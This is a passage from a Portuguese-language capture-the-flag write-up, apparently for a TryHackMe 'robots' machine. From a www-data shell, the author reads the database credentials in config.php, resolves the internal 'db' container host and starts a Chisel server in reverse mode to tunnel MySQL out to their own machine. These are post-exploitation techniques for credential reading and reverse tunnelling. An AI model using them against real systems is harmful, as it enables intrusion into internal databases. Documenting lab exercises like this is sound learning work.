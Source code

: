 Vamos olhar o `config.php`:

```bash
www-data@robots:/var/www/html/harm/to/self$ cat config.ph
cat config.ph
cat: config.ph: No such file or directory
www-data@robots:/var/www/html/harm/to/self$ cat config.php
cat config.php
<?php
    $servername = "db";
    $username = "robots";
    $password = "omitido";
    $dbname = "web";
// Get the current hostname
$currentHostname = $_SERVER['HTTP_HOST'];

// Define the desired hostname
$desiredHostname = 'robots.thm';

// Check if the current hostname does not match the desired hostname
if ($currentHostname !== $desiredHostname) {
    // Redirect to the desired hostname
    header("Location: http://$desiredHostname" . $_SERVER['REQUEST_URI']);
    exit();
}
ini_set('session.cookie_httponly', 1);

session_start();

?>
```

A variável `$servername = "db";` corresponde a um host que não conhecemos então podemos descobrir usando o seguinte comando:

`getent hosts db`

Esse comando vai buscar no arquivo /etc/hosts o mapemento para db:

```bash
www-data@robots:/var/www/html/harm/to/self$ getent hosts db
172.18.0.3      db
```

> Obs: Esse IP parece ser de containers docker.

Agora temos as credênciais do banco de dados, só temos um problema, a máquina alvo não possuí o comando `mysql`, nem `mariadb`... Nesse caso, uma solução elegante é usar **port forwarding reverso** para expor o serviço MySQL para minha máquina local.

Aqui vou utilizar o [Chisel](https://github.com/jpillora/chisel).

Feito o download do `Chisel` vou iniciar em minha máquina:

```bash
./chisel server -p 7777 --reverse
2025/07/25 00:14:54 server: Reverse tunnelling enabled
2025/07/25 00:14:54 server: Fingerprint H30B6ZZqTT5WzTISSkazJYO+gj8ikfAi8bHjyttlOv0=
2025/07/25 00:14:54 server: Listening on http://0.0.0.0:7777
```
